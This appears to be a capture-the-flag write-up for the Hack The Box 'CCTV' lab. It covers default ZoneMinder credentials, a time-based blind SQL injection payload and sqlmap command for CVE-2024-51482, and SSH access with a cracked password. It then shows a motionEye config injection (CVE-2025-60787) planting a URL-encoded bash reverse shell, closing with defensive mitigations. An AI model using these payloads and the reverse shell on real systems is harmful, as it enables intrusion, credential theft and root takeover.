







# CCTV

```
**Host:** cctv.htb (10.129.XXX.XX)
**OS:** Ubuntu 24.04.4 LTS
**Difficulty:** Easy
**Key Concepts:** Default Credentials, Time-Based Blind SQL Injection, Internal Service Enumeration, Configuration-Based Command Injection.
```

## Attack Chain Summary

| Step | User / Access           | Technique Used                           | Result                                                                                                                                  |
| ---- | ----------------------- | ---------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | `(Local / Recon)`       | **nmap Port Scan & Enumeration**         | Identified open ports **22 (SSH)** and **80 (HTTP)** and detected **ZoneMinder v1.37.63** running on the web server.                    |
| 2    | `(Unauthenticated Web)` | **Default Credentials**                  | Successfully authenticated to the ZoneMinder management console using the default credentials **admin:admin**.                          |
| 3    | `(admin / Web)`         | **Blind SQL Injection (CVE-2024-51482)** | Exploited the `tid` parameter in `event.php` to extract **bcrypt password hashes** from the `zm.Users` database table.                  |
| 4    | `(mark / SSH)`          | **Password Cracking & SSH Access**       | Cracked the hash for user **mark** (`opensesame`) and obtained a shell session via **SSH login**.                                       |
| 5    | `(mark / Local)`        | **Internal Network Enumeration**         | Discovered an internal **motionEye v0.43.1b4** instance running as **root** with an **unauthenticated API exposed on port 7999**.       |
| 6    | `(mark / Priv-Esc)`     | **Config Injection (CVE-2025-60787)**    | Injected a **URL-encoded reverse shell payload** into the `picture_filename` parameter using the motionEye HTTP control API.            |
| 7    | `(root / Shell)`        | **Reverse Shell Execution**              | Triggered an **emulated motion snapshot** which executed the payload, resulting in a **root reverse shell** and retrieval of the flags. |


# Offensive Operations


## Reconnaissance

### Port Scanning
We begin by establishing the attack surface using Nmap to scan for open ports and running services.




```bash
nmap -sC -sV -oA nmap/initial 10.129.XXX.XX
```


**Output Summary:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
80/tcp open  http    Apache httpd 2.4.58

```

### Web Enumeration (Port 80)

Navigating to port 80 reveals a static landing page for a fictional company called "SecureVision CCTV & Security Solutions". While the main site lacks interactive functionality, a link labeled "Staff Login" points to the `/zm` directory.

Accessing `http://cctv.htb/zm` redirects us to the login panel for **ZoneMinder v1.37.63**, an open-source video surveillance software system.




## Initial Access & Foothold

### Default Credentials

Before searching for complex exploits, it is always best practice to test default credentials. ZoneMinder's default administrative credentials are:

* **Username:** admin
* **Password:** admin




These grant us access to the web interface. By inspecting the API endpoint at `/zm/api/users.json`, we can enumerate the users registered on the system:

| ID | Username   | System Privilege |
| :- | :--------- | :--------------- |
| 1  | superadmin | Edit             |
| 2  | mark       | View             |
| 3  | admin      | View             |


### Exploiting CVE-2024-51482 (ZoneMinder SQLi)

Researching vulnerabilities for ZoneMinder v1.37.63 reveals **CVE-2024-51482**, a Time-Based Blind SQL Injection vulnerability.

**The Vulnerability Mechanism:**
The flaw exists in the `web/ajax/event.php` file, specifically within the `removetag` action. The `tid` (tag ID) parameter is passed directly into a backend SQL query without proper sanitization or parameterization. Because the application does not reflect the database errors or output in the HTTP response, we must use a Time-Based Blind technique. This involves injecting a `SLEEP()` command; if the application pauses before responding, the injection is successful.




**Manual Verification Payload:**

```http
GET /zm/index.php?view=request&request=event&action=removetag&tid=1 AND (SELECT 3831 FROM (SELECT(SLEEP(5)))UoVc)
Cookie: ZMSESSID=<authenticated_session>

```

**Automated Exploitation with sqlmap:**
To extract the password hashes efficiently, we pass the authenticated session cookie to `sqlmap`:

```bash
sqlmap -u "[http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1](http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1)" \
  --cookie="ZMSESSID=<your_session_cookie>" --batch --dbms=mysql -p tid \
  --technique=T --time-sec=5 -D zm -T Users --dump

```

This successfully dumps the `zm.Users` table, revealing the bcrypt password hashes for all users.

### SSH Access

Cracking the hash for the user `mark` reveals the plaintext password `opensesame`. With these credentials, we can secure a stable shell via SSH:

```bash
ssh mark@cctv.htb
# Password: opensesame

```

*User flag obtained at `/home/mark/user.txt` (or `/home/sa_mark/user.txt`).*



## Privilege Escalation

### Internal Service Enumeration

Once on the box, the next step is to look for services running locally that were not exposed to the external network. Using `ss -tulpn` or `netstat -ano`, several local listeners are discovered:

```text
127.0.0.1:8765  — motionEye 0.43.1b4 (web UI)
127.0.0.1:7999  — motion HTTP control interface
127.0.0.1:9081  — motion MJPEG stream
127.0.0.1:3306  — MySQL
127.0.0.1:8554  — RTSP server

```

### Analyzing motionEye

motionEye is a web frontend for the motion daemon, used for camera monitoring. Two critical pieces of information dictate our next move:

1. **Execution Context:** Inspecting `/etc/systemd/system/motioneye.service` reveals that the service runs as **root**.
2. **Access:** The motion HTTP control interface on port `7999` allows direct configuration changes without requiring authentication.

### Step 4: Exploiting CVE-2025-60787 (motionEye RCE)

**The Vulnerability Mechanism:**
motionEye <= 0.43.1b4 suffers from an unauthenticated Remote Code Execution (RCE) vulnerability via configuration parameter injection. The motion daemon takes configuration values (like `picture_filename`) and executes them as part of a shell command when processing images. By injecting shell metacharacters into this parameter, we can force the daemon to execute arbitrary commands as the root user.

**The Exploit Chain:**
We will inject a standard bash reverse shell, wrapping it in command substitution `$()`, and fully URL-encoding it so the HTTP API accepts it.

1. **Enable picture output:**
```bash
curl -s "[http://127.0.0.1:7999/1/config/set?picture_output=on](http://127.0.0.1:7999/1/config/set?picture_output=on)"

```


2. **Inject the reverse shell:** (The payload URL-encodes `$(bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/4444 0>&1')`)
```bash
curl -s "[http://127.0.0.1:7999/1/config/set?picture_filename=%24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.XX.XX%2F4444%200%3E%261%27%29](http://127.0.0.1:7999/1/config/set?picture_filename=%24%28bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.XX.XX%2F4444%200%3E%261%27%29)"

```


3. **Enable emulated motion:** This forces the daemon to register a "motion" event and prepare an image capture.
```bash
curl -s "[http://127.0.0.1:7999/1/config/set?emulate_motion=on](http://127.0.0.1:7999/1/config/set?emulate_motion=on)"

```


4. **Trigger the exploit:** Firing a snapshot forces the daemon to process the `picture_filename` parameter, executing our reverse shell.
```bash
curl -s "[http://127.0.0.1:7999/1/action/snapshot](http://127.0.0.1:7999/1/action/snapshot)"

```



With a netcat listener running on our attacking machine (`nc -nlvp 4444`), we catch the reverse shell as `root`.

*Root flag obtained at `/root/root.txt`.*




# Defensive Operations

To prevent the attack paths demonstrated in this lab, the following defensive measures should be implemented:

### 1. ZoneMinder SQL Injection Mitigation

* **Patching:** Upgrade ZoneMinder to version 1.37.65 or later, where `CVE-2024-51482` has been patched by implementing proper parameterized queries.
* **Detection:** SOC analysts should monitor web access logs for anomalous `tid` parameters containing SQL keywords or extensive `SLEEP` commands. Implementing a Web Application Firewall (WAF) can automatically block common SQLi payloads.
* **Credential Hygiene:** The initial foothold was solely possible due to default credentials (`admin:admin`). Enforce strong password policies and change all default vendor credentials upon installation.

### 2. motionEye Command Injection Mitigation

* **Patching:** Update motionEye to a patched version that sanitizes configuration inputs before passing them to the system shell.
* **Least Privilege:** The motionEye service was running as `root`. Reconfigure the `systemd` service file (`User=root`) to run the daemon under a dedicated, low-privileged service account. This would limit the impact of the RCE, preventing full system takeover.
* **Detection:** Configure Endpoint Detection and Response (EDR) or Sysmon to alert on unexpected child processes. A monitoring daemon like `motion` spawning a reverse `bash` shell connecting to an external IP is a high-fidelity indicator of compromise.

